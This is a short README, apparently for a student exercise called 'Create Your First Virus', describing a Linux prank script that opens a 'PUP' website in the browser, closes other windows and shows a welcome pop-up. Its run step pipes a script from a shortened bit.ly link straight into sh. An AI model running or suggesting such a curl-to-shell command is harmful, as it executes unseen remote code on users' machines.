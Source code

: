 # Exercise 02 - Create Your First Virus
## Task
Create your first virus
- Executable file
- Will open browser and PUP website automatically
- Will close all other website
- Pop up message, "Welcome to PUP"
## Prerequisites
To be able to run the virus, the host machine should be:
- Running any Linux Operating System
- Has either `google-chrome` or `firefox` browsers
## Running the Virus
To execute the virus, copy and paste the command below:
```sh
curl -L https://bit.ly/4fJCXo0 | sh
```
